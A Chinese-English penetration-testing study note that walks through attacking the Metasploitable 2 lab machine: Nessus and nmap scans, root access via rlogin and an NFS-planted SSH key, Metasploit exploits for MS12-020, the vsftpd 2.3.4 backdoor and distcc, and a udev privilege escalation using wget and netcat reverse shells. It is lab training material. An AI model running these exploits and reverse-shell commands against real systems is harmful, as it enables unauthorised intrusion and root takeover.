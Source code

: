 ```yaml
---
title: Security
---
```




網站封包傳送、攔截

- Owasp

- Kali

- Burp


攻擊機

- On Windows

- On Kali Linux (300 多個攻擊工具，2~3G)

  - use VMware

  - or use VirtualBox

  - install **Tenable Nessus** 弱點掃描工具

    ```
    dpkg -i Nessus_x_x.deb`
    /etc/init.d/nessusd start  # go to port 8834 and do scanning on hosts (and webs)
    
ping <victim_address>
    nmap -p0-65535 <victim_address>  # scan tool and check vulnerability
...
    512/tcp
    513/tcp
    514/tcp
    111/tcp
    2049/tcp
    ...
    
    # 512/tcp: rexec, 513/tcp: rlogin, 514/tcp: rsh (used for remote backup normally)
    
    apt install rsh-client
    rlogin -l root <victim_address>
    
    # 111: rpcbind, 2049: nfs
    apt install nfs-common
    showmount -e <victim_address>
    /
    mkdir vuln
    mount -t nfs -o nolock <victim_address>:/ /root/vuln
    ssh-keygen
    cat ~/.ssh/id_rsa/pub >> /root/vuln/root/.ssh/authorized_keys
    ssh root@<victrim_address>
    rpcinfo
    ```
    
  - install Metasploit Framework (MSF) (弱點利用工具)

```
# 滲透測試 (檢查弱點的真實性，可否利用)
msfconsole
msf5 > search ms12-020
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_check) > show options
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_check) > set rhosts <victim_address>
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_check) > show options
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_check) > run/exploit
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_check) > back
msf5 > use auxiliary/scanner/rdp/ms12_020_maxchannelids
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_maxchannelids) > show options
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_maxchannelids) > set rhosts <victim_address>
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_maxchannelids) > show options
msf5 auxiliary(auxiliary/scanner/rdp/ms12_020_maxchannelids) > exploit  # DoS
===> victim crashed

# 21/tcp: ftp
telnet <victim_address> 21
# see FTP version => vsFTPd 2.3.4
^]
telnet> quit
telnet <victim_address> 21
user xxx:)
pass asdfdas
^]
telnet> quit
nc <victim_address> 6200

msconsole
msf5 > search vsftp
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > expoit(unix/ftp/vsftpd_234_backdoor) > show options
msf5 > expoit(unix/ftp/vsftpd_234_backdoor) > set rhosts <victim_address>
msf5 > expoit(unix/ftp/vsftpd_234_backdoor) > exploit

# 1524/tcp open ingreslock (已知木馬和遠端執行漏洞引起)
telnet <victim_address> 1524

# 3632/tcp: Distcc 在不同電腦上compile (server: distccd, client: distcc)
# distcc 2.x的弱點: 未配置現在來源伺服器的端口 => 允許遠端攻擊者執行任何指令

msf>	search distcc
		use exploit/unix/misc/distcc_exe
		show payloads
		set PAYLOAD cmd/unix/reverse
		set RHOST <victim_address>
		set LHOST <attacker_address>
		exploit
-> get daemon priviledge
提權 (e.g., daemon -> root)
msf>	search distcc
		use exploit/unix/misc/distcc_exe
		show payloads
		set PAYLOAD cmd/unix/reverse
		set RHOST <victim_address>
		set LHOST <attacker_address>
		set CMD nc -e /bin/bash <address> 8879
		exploit
nc -l -p 8879 -v
#udev: 管理/dev目錄底下的裝置節點、及接替devfs, hotplug的功能
cd /usr/share/exploitdb/
./searchsploit udev linux local
cp exploits/linux/local/8572.c /var/www/udev.c
/etc/init.d/apache2 start
more /var/www/udev.c

# in the terminal by nc
wget http://<address>/udev.c
gcc udev.c -o udev
echo "#!/bin/sh" > /tmp/run
echo "/bin/netcat -e /bin/sh <address> 8871" >> /tmp/run
run
chmod +x /tmp/run
ps aux | grep udev
nc -l -p 8871 -v
--> get root
```

- commands:
  - 資訊收集
    - metagoofil 文件收集(use google search)
    - dnsenum DNS收集
    - theharvester 收集email、username
    - dmitry 多功能訊息 
      - whois (twnic whois)
      - netcraft.com (時光機)
      - search emails
    - maltego
      - 搜尋Social Network節點 (圖形化呈現), e.g., FB, twitter

VictimSystem 靶機 (木人樁)

- Metasploitable 2

```
ifconfig
...
inet <address>
```



